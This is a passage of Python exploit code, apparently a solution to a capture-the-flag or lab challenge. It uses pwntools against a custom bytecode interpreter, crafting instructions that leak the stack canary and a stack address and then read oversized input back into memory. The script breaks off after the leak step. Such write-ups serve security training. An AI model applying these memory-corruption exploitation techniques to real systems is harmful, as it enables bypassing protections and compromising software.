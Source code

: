 ```python
    return value.to_bytes(1, 'little') + register + Opcodes.IMM

def read_stdin_to_memory(offset, count):
    buffer = b''
    buffer += write_register(Regs.a, value=0)  # stdin
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.READ_MEM, out_reg=Regs.a)
    return buffer

def write_stdout_from_memory(offset, count):
    buffer = b''
    buffer += write_register(Regs.a, value=1)  # stdout
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.WRITE_MEM, out_reg=Regs.a)
    return buffer

def force_crash():
    buffer = b''
    buffer += syscall(Syscalls.OPEN, out_reg=Regs.a)
    return buffer

def leak_stack_content(p, count):
    # Get rid off junk
    p.readuntil(b'Please input your yancode:')  
    p.readuntil(b'Starting interpreter loop! Good luck!')
    p.readline()  

    while True:
        data = p.read(count)
        print(f'Data:{data}')
        if not data.startswith(b'[') and len(data) >= count:
            canary_bytes = data[0x18: 0x20]
            canary = struct.unpack('<Q', canary_bytes)[0]
            assert(canary & 0x00000000000000ff == 0)

            stack_leak_bytes = data[0x38: 0x40]
            stack_leak = struct.unpack('<Q', stack_leak_bytes)[0]

            break
    

    return stack_leak, canary

def exploit():
    p = process(BINARY)
    # p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)

    read_count = 0x40
    buf_0 = b''
    buf_0 += write_stdout_from_memory(offset=0xf0, count=read_count)

    write_count = 0xff
    buf_1 = b''
    buf_1 += read_stdin_to_memory(offset=0xf0, count=write_count)

    yan_buf = buf_0 + buf_1
    with open(DEBUG_FILE_PATH, 'wb') as f:
        f.write(yan_buf)
    p.send(yan_buf)

    stack_leak, canary = leak_stack_content(p, count=read_count)
```